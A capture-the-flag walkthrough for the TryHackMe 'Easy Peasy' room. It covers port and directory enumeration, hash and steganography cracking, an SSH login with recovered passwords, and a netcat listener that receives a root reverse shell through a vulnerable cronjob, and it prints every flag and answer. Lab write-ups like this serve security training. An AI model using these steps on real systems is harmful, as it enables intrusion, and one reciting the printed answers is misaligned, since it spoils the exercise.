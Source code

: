```yaml
---
description: https://tryhackme.com/room/easypeasyctf
---
```


# Easy peasy CTF

_Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob._

**Task1 Enumeration through Nmap**

<mark style="background-color:purple;">kania0507@fsociety:\~/CTF/TryHackme/Easy Peasy$ sudo nmap -sV -p 80,6498,65524 10.10.17.11</mark>\ <mark style="background-color:purple;">\[sudo] password for kania0507:</mark>\ <mark style="background-color:purple;">Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-28 12:17</mark>&#x20;\ <mark style="background-color:purple;">Nmap scan report for 10.10.17.11</mark>\ <mark style="background-color:purple;">Host is up (0.22s latency).</mark>\ <mark style="background-color:purple;">PORT STATE SERVICE VERSION</mark>\ <mark style="background-color:purple;">80/tcp open http nginx 1.16.1</mark>\ <mark style="background-color:purple;">6498/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)</mark>\ <mark style="background-color:purple;">65524/tcp open http Apache httpd 2.4.43 ((Ubuntu))</mark>\ <mark style="background-color:purple;">Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel</mark>\ <mark style="background-color:purple;">Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .</mark>\ <mark style="background-color:purple;">Nmap done: 1 IP address (1 host up) scanned in 14.98 seconds</mark>

How many ports are open?\
<mark style="background-color:purple;">3</mark>

What is the version of nginx?\
<mark style="background-color:purple;">1.16.1</mark>

What is running on the highest port?\
<mark style="background-color:purple;">apache</mark>



**Task2 Compromising the machine**

```
kania0507@fsociety:~$ gobuster dir -u http://10.10.17.11/ -w ~/Desktop/Wordlist/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.17.11/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kania0507/Desktop/Wordlist/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2025/07/28 12:09:59 Starting gobuster in directory enumeration mode
===============================================================
/hidden               (Status: 301) [Size: 169] [--> http://10.10.17.11/hidden/]
/index.html           (Status: 200) [Size: 612]                                 
/robots.txt           (Status: 200) [Size: 43]                                  
                                                                                
===============================================================
2025/07/28 12:11:59 Finished
===============================================================
```

```
kania0507@fsociety:~/CTF/TryHackme/Easy Peasy$ gobuster dir -u http://10.10.17.11/hidden/ -w ~/Desktop/Wordlist/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.17.11/hidden/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kania0507/Desktop/Wordlist/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2025/07/28 12:11:26 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 390]
/whatever             (Status: 301) [Size: 169] [--> http://10.10.17.11/hidden/whatever/]
```

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

[https://cyberchef.org/](https://cyberchef.org/)

Using GoBuster, find flag 1.\
<mark style="background-color:purple;">flag{f1rs7\_fl4g}</mark>

```
kania0507@fsociety:~$ gobuster dir -u http://10.10.17.11:65524/ -w ~/Desktop/Wordlist/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.17.11:65524/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kania0507/Desktop/Wordlist/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2025/07/28 12:24:53 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 10818]
/robots.txt           (Status: 200) [Size: 153]  
/server-status        (Status: 403) [Size: 279]  
                                                 
===============================================================
2025/07/28 12:26:53 Finished
===============================================================

```

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Further enumerate the machine, what is flag 2?\
<mark style="background-color:purple;">flag{1m\_s3c0nd\_fl4g}</mark>

<mark style="background-color:purple;">Apache page:</mark>

<figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Crack the hash with easypeasy.txt, What is the flag 3?\
<mark style="background-color:purple;">flag{9fdafbd64c47471a8f54cd3fc64cd312}</mark>

<figure><img src="../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Base62:

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

What is the hidden directory?\
<mark style="background-color:purple;">/n0th1ng3ls3m4tt3r</mark>

<mark style="color:$primary;background-color:purple;">STEGSEEK:</mark>

```
kania0507@fsociety:~/CTF/TryHackme/Easy Peasy$ stegseek -sf binarycodepixabay.jpg -wl easypeasy.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek
[i] Found passphrase: "mypasswordforthatjob"
[i] Original filename: "secrettext.txt".
[i] Extracting to "binarycodepixabay.jpg.out".

```

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Using the wordlist that provided to you in this task crack the hash\
what is the password?\
<mark style="background-color:purple;">mypasswordforthatjob</mark>

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

What is the password to login to the machine via SSH?\
<mark style="background-color:purple;">iconvertedmypasswordtobinary</mark>\


```
kania0507@fsociety:~/CTF/TryHackme/Easy Peasy$ ssh -p 6498 boring@10.10.17.11 
The authenticity of host '[10.10.17.11]:6498 ([10.10.17.11]:6498)' can't be established.
ECDSA key fingerprint is SHA256:hnBqxfTM/MVZzdifMyu9Ww1bCVbnzSpnrdtDQN6zSek.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.17.11]:6498' (ECDSA) to the list of known hosts.
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized           **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@10.10.17.11's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
boring@kral4-PC:~$ 
```

What is the user flag?\
<mark style="background-color:purple;">flag{n0wits33msn0rm4l}</mark>\


<figure><img src="../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

```
kania0507@fsociety:~/CTF/TryHackme/Easy Peasy$ nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.17.11 37856
bash: cannot set terminal process group (17579): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# id
id
uid=0(root) gid=0(root) groups=0(root)
root@kral4-PC:/var/www# cd /root
cd /root
root@kral4-PC:~# ls -al
ls -al
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 Jun  9 11:25 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
root@kral4-PC:~# cat .root.txt
cat .root.txt
flag{63a9f0ea7bb98050796b649e85481845}
root@kral4-PC:~# 
```

What is the root flag?\
<mark style="background-color:purple;">flag{63a9f0ea7bb98050796b649e85481845}</mark>

